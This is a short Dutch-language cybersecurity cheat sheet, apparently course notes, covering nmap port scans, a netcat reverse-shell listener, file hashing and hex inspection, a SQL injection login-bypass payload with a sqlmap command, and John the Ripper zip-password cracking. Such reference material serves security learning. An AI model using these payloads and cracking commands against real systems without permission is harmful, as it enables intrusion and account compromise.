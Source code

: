 # Cybersecurity cheat sheet

Door: Gilles De Meerleer

## NMAP

Scan de 1000 meest bekende poorten op een systeem

```bash
nmap 192.168.1.22
```

Scan enkel poort 22 voor 100 systemen

```bash
nmap –p22 192.168.1.1-100
```

Scan alle poorten op één systeem

```bash
nmap –p– 192.168.1.22
```

Services ophalen van 3 poorten op één systeem (banner grabbing)

```bash
nmap –sV –p22,80,443 192.168.1.22
```

## Reverse Shells

Om een reverse shell te maken kan je de volgende commando's gebruiken:

### Met Netcat

Op de aanvallers machine:

```bash
nc -lvp 4444
```

## Static file analysis

File hashes

```bash
sha256sum file.txt
```

Op windows:

```powershell
Get-FileHash file.txt -Algorithm SHA256
```

Strings in een bestand zoeken:

```bash
strings file.txt
```

xxd / hexdump:

```bash
xxd file.txt
```

```bash
hexdump -C file.txt | head
```

## SQL Injection

### SQL Injection Cheat Sheet

Kraken van een login form:

```sql
' or 1=1 -- .
```

Gebruik sqlmap om SQL Injection te vinden:

```bash
sqlmap -u "http://example.com/login.php" --data="username=admin&password=admin" --method=POST
```

## John the Ripper

John the Ripper is een tool om wachtwoorden te kraken. Om een zip bestand te kraken kan je het volgende commando gebruiken:

Eerst moet je de hashes extraheren uit het zip bestand:

```bash
zip2john /path/to/zipfile.zip > /path/to/hash.txt
```

Daarna kan je John the Ripper gebruiken om de hashes te kraken:

```bash
john --format=zip --wordlist=/path/to/wordlist.txt /path/to/hash.txt
```

Deze kan je ook gebruiken om een hash te kraken:

```bash
john --format=PKZIP --wordlist=rockyou.txt hash.txt
```

## Deobfuscating

### Deobfuscating JavaScript

Deobfuscating JavaScript kan met een online tool zoals [deobfuscate.io](https://deobfuscate.io/).

## Encoding

Voor encorderingen te decoderen kan je [CyberChef](https://gchq.github.io/CyberChef/) gebruiken.

## Steganografie

Om verborgen informatie te vinden in een afbeelding kan je [StegOnline](https://stegonline.georgeom.net/upload) gebruiken.
